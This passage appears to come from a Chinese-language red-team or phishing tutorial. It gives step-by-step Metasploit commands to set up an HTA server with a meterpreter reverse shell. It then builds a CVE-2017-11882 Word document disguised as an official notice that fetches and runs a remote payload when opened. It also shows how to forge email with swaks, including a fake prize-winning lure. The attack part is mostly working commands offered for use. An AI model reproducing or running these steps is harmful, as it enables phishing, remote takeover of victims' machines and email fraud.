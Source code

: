 [![](assets/1701612327-5d86e75af87a46881a1691da92047bc6.png)](https://xzfile.aliyuncs.com/media/upload/picture/20230710173352-e205e7a4-1f04-1.png)

利用 cve-2017-11882 上线 msf

步骤一：使用 exploit/windows/misc/hta\_server 生成病毒

```plain
use exploit/windows/misc/hta_server
set payload windows/meterpreter/reverse_http
set lport 4444
show options
exploit
```

[![](assets/1701612327-25d3d350717fcb249392ee0552c8e2eb.png)](https://xzfile.aliyuncs.com/media/upload/picture/20230710173413-ee731a70-1f04-1.png)

步骤二：生成带病毒的 doc 文件并伪装为通知文件

```plain
python2 Command109b_CVE-2017-11882.py -c "mshta http://192.168.126.132:8080/Uf7DGFz.hta" -o 通知文件.doc -i input.rtf
```

[![](assets/1701612327-8150432338c6711c59b17d461024cbf5.png)](https://xzfile.aliyuncs.com/media/upload/picture/20230710173510-108ae110-1f05-1.png)

受害人打开 word，msf 就会上线 shell

[![](assets/1701612327-02cfa5b3e130ece19c5658621acaa5a2.png)](https://xzfile.aliyuncs.com/media/upload/picture/20230710173522-17c2501c-1f05-1.png)

## 四、邮件伪造

**Swaks**

Swaks 是 kali 自带的一款邮件伪造工具，通过 swaks 可以向任意目标发送任意内容的邮件

```plain
swaks 的用法：
--from <发件人的邮箱> 
--ehlo <伪造邮件头> 
--body <邮件正文内容> 
--header <邮件头信息，subject 为邮件标题> 
--data <源邮件> 
--attach <附件文件>
```

给指定邮箱发送邮件

```plain
swaks --to seyoulala@chacuo.net --from A 公司 --ehlo 中奖通知 --body 秉承“正德厚生，臻于至善”的企业核心价值观，立足发展，真情回馈社会和客户。全体员工祝贺您在此活动中获得一等奖。再次感谢您对本公司的关信和支持，本信仅为中奖凭证，具体细节见注意事项。 --header "Subject: 中奖通知"
```

[![](assets/1701612327-0a80cfc51f7025b5da0d986deb48786b.png)](https://xzfile.aliyuncs.com/media/upload/picture/20230710173536-1fff73b8-1f05-1.png)
